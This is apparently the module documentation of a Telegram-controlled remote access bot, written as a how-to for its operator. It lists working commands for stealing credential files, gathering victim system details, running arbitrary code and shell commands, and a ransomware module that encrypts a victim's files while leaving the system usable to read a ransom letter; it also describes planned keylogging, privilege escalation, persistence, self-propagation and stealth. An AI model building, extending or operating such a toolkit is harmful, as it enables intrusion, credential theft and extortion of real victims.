 # Modules

This is the documentation of the included by default modules. You can rule your own if you know how to code in any of the supported languages. 
    
  
```bash
Blocks like this represents what you would usually write on Telegram chat
```

### login
Login using the bot password in the password.txt file allowing you to run privileged commands/modules  
  
WORKING  
  
```bash
/login thisismypassword
```

### backup
Backup the selected path allowing you to chose between different levels of compression, password encryption. Gives you a link to the uploaded files  
  
Not Working/In Current Development  

```bash
/backup /home/documents/ 11  
```


### cpp
Run C++ code and return the output to Telegram  
  
Uses system installed g++ command  

WORKING  

```bash
/cpp #include <iostream>

int main() {
  std::cout << "Hello!";
  return 0;
}
```
  
### dumpNetwork
Generates a PCAP network traffic capture and uploads it to Telegram  
  
Not Developed yet  

```bash
/dumpNetwork
```
  
### findCredentials
Find multiple files that are holding sensitive information, creates a JSON and returns it to Telegram  
  
WORKING  

```bash
/findCredentials
```


### getClientInfo
Gathers information about the system. Public IP address, operative system version, kernel version, hardware, number of packages installed, etc. Returns the information to Telegram  
  
WORKING

```bash
/getClientInfo
```

### go
Run GoLang code and returns the output to Telegram  
  
Uses system installed Go command  
  
WORKING

```bash
/go package main
import "fmt"
func main() {
  fmt.Println("Hello!")
}
```

### help
Returns information about available modules to Telegram  
  
WORKING  

```bash
/help
```
  
### js
Run Javascript code and return the output to Telegram  
  
Uses system installed node command. It's not the same process as the Telegram bot  
  
WORKING

```bash
/js console.log(new Date());
```

### keylogger
Captures keyboard keys and returns them to telegram after selected number of keys are captured  
  
Not Developed Yet  

```bash
/keylogger 1000
```
  
### lua
Run Lua code and return the output to Telegram  
  
Uses system installed lua command  
  
WORKING  

```bash
/lua print("Hello")
```
  
### pe
Escalate privileges to root using a known exploit, or if there isn't an available vulnerability for the system, assist you on performing an advanced privilege escalation using social engineering (for example infecting shared binaries and waiting the root users starts a shell to get privileges)  
  
Not Developed Yet  

```bash
/pe
```
  
### persistence  
Get persistence on the system to make sure the bot keeps running even if removed, dependencies are removed or the process is killed  
  
Not Developed Yet  

```bash
/persistence
```

### pivot  
Try to propagate the bot to other systems, media storage, external devices or network devices  
  
Not Developed Yet

```bash
/pivot
```

### python
Run Python code and return the output to Telegram  
  
Uses system installed python command  
  
WORKING

```bash
/python print(f"""Hello!
  How
    Are
      You?
""")
```

### ransomware
Encrypts all the files under indicated path, using a key derivation from your key and indicated compression strength. Some folders are ignored by default, so you don't break the system, the bot continues to work and the user can use the system to read the ransomware letter you send  
  
* Brotli compression is used to improve times, reduce size and increasse security  
* Known cryptography (aes 256 + camellia 256 + aes256, cbc with different IV) is used by default (OpenSSL implentations)  
* Know key derivations (base64, sha512) are used by default  
* Custom Xor encryption is added too (2 layers, using different key derivations) just as an extra. (I think i will help in case know vulnerabilities in OpenSSL arrives some day or to dificult a bit quantum computers job in cracking)  
  
WORKING  
  
```bash
/ransomware e password /home 1
```

```bash
/ransomware d password /home 1
```

### run
Run commands in the system (in a default subshell) and return output to Telegram

WORKING

```bash
/run ls -la
```

### scanNetwork
Scan the local networks to find available services and devices and return result to Telegram  
  
Not Developed Yet  
  
```bash
/scanNetwork
```

### sendMail
Send an email using a free service  
  
Not Developed Yet

```bash
/sendMail from@freeprovider.tld myPassword Hello Hey How are you doing? destination@example.com
```
  
### stealth
Remove any traces of infection, injects itself into another procress memory, goes sleep for the time indicated, run the bot without dependecies, change the footprint  
  
Not Developed Yet  

```bash
/stealth 21h
```
